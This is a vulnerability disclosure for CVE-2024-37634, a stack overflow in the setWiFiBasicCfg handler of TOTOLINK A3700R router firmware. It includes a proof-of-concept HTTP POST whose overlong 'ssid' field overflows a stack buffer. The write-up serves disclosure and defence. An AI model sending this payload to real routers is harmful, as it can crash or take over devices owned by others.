 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiBasicCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37634

### Analysis

`V7 ` retrieves the value from the ` ssid ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240613115802765](./image-20240613115802765.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 174

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"topicurl":"setWiFiBasicCfg",

"ssid":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

}
```

![image-20240613120008078](./image-20240613120008078.png)

